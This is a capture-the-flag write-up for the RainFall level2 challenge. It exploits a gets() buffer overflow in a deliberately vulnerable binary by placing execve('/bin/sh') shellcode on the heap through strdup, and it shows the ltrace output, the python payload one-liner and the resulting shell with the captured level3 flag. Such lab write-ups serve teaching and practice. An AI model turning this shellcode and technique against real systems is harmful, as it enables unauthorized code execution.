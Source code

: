 ## Context

As for the previous level, There is a program that makes a call to gets(), which is vulnerable to buffer overflow attacks. This time though, a check is made to make sure that the return address of the function is not a stack address (using the 0xb0000000 mask).

## Lead

However, there is a call to strdup() which records the user's input on the heap and which we can exploit, since the address space layout randomization ([ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html)) is off, meaning the memory addresses associated with running processes are predictable.

## Exploit

We first get the address of our input registered on the heap (0x0804a008) using ltrace:
```
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7d4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6dc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6dc
puts("ok")                                                            = 3
strdup("ok")                                                          = 0x0804a008    <-- the address is here
+++ exited (status 8) +++
```

Now Using gdb, we find that there are 80 bytes needed to reach the return address. We just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we need to complete our input with 59 '\x90' bytes (the 'No Operation' instruction), followed by the address of our shellcode on the heap, in the little endian convention:
```
level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * 59 + '\x08\xa0\x04\x08'" > /tmp/exploit
```

it only remains to run the program with our crafted input:
```
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
1���
    Qh//shh/bin��̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We can now reach the next level with the command `su level3` and fill in the flag found as a password.